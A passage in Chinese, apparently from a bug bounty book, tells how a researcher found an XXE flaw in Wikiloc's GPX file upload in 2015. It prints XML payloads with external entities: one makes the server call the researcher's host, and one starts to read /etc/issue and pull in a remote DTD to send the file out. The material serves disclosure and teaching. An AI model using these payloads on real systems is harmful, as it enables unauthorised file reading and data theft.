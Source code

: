 **报告日期：** 2015 年 10 月

**奖励支付：** 礼品

Wikiloc 是一个发现和分享最佳户外徒步、骑行及其他活动路径的网站。它还允许用户通过 XML 文件上传自己的轨迹，这对于像 David Sopas 这样的骑行黑客来说非常有吸引力。

Sopas 注册了 Wikiloc，并在注意到 XML 上传功能后，决定测试其是否存在 XXE 漏洞。首先，他从网站下载了一个文件，以确定 Wikiloc 的 XML 结构，在这个案例中是一个 *.gpx* 文件。然后他修改了文件并上传。这是他修改后的文件：

```
   {linenos=on}

➊ <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://www.davidsopas.com/XXE" > ]>

   <gpx

    version="1.0"

    creator="GPSBabel - http://www.gpsbabel.org"

    xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix

   .com/GPX/1/1/gpx.xsd">

   <time>2015-10-29T12:53:09Z</time>

   <bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000"

   maxlon="-8.037170000"/>

   <trk>

➋ <name>&xxe;</name>

   <trkseg>

   <trkpt lat="40.737758000" lon="-8.093361000">

    <ele>178.000000</ele>

    <time>2009-01-10T14:18:10Z</time>

   --snip--
```

在 ➊，他在文件的第一行添加了一个外部实体定义。在 ➋，他在 *.gpx* 文件中的轨迹名称内调用了该实体。

将文件上传回 Wikiloc 导致向 Sopas 的服务器发出了一个 `HTTP GET` 请求。这个事件有两个值得注意的原因。首先，通过使用一个简单的概念验证调用，Sopas 能够确认服务器正在评估他注入的 XML，并且服务器会进行外部调用。其次，Sopas 使用了现有的 XML 文档，因此他的内容符合该网站预期的结构。

在 Sopas 确认 Wikiloc 会进行外部 HTTP 请求之后，唯一的另一个问题就是它是否会读取本地文件。因此，他修改了自己注入的 XML，使 Wikiloc 将其*/etc/issue*文件的内容发送给他（*/etc/issue*文件会返回所使用的操作系统）：

```
   <!DOCTYPE roottag [

➊ <!ENTITY % file SYSTEM "file:///etc/issue">

➋ <!ENTITY % dtd SYSTEM "http://www.davidsopas.com/poc/xxe.dtd">

➌ %dtd;]>

   <gpx

    version="1.0"

    creator="GPSBabel - http://www.gpsbabel.org"

```